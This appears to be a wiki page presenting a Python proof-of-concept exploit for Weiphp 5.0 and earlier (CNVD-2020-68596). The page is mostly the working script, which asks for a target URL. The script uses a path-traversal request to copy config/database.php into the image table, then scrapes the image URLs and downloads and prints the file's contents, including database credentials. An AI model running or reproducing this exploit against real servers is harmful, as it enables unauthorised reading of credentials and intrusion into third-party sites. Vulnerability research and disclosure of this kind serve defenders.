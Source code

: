 <languages   />

Impact of the vulnerability
---------------------------

    Weiphp <= 5.0

POC
---

    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author : PeiQi
    # from   : http://wiki.peiqi.tech


    import requests
    import random
    import re


    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')                            \033[0m')
        print('+  \033[34mVersion: Weiphp5.0                                                \033[0m')
        print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        upload_url = target_url + "/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        data = {
            "1":1
        }
        try:
            response = requests.post(url=upload_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将 database.php文件 写入Pictrue表中\033[0m")
            else:
                print("\033[31m[x] 漏洞利用失败 \033[0m")
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")

    def POC_2(target_url):
        vnln_url = target_url + "/public/index.php/home/file/user_pics"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
        }
        try:
            response = requests.get(url=vnln_url, headers=headers).text
            href = re.findall(r'<img src="(.*?)"', response)
            for i in href:
                print("\033[32m[o] 得到敏感文件url：{}\033[0m".format(i))
                data = requests.get(url=i, headers=headers)
                path = str(random.randint(1,999)) + '.php'
                with open(path, 'wb') as f:
                    f.write(data.content)
                    print("\033[32m[o] 成功下载文件为：{}\033[0m".format(path))
                    print("\033[32m[o] 文件内容为：\n\033[0m{}".format(data.text))
        except:
                print("\033[31m[x] 获取文件名失败 \033[0m")



    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)
        image_url = POC_2(target_url)

<div lang="chinese" dir="ltr" class="mw-content-ltr">
參考
----

</div>
<http://wiki.peiqi.tech/PeiQi_Wiki/CMS%E6%BC%8F%E6%B4%9E/Weiphp/Weiphp5.0%20%E5%89%8D%E5%8F%B0%E6%96%87%E4%BB%B6%E4%BB%BB%E6%84%8F%E8%AF%BB%E5%8F%96%20CNVD-2020-68596.html>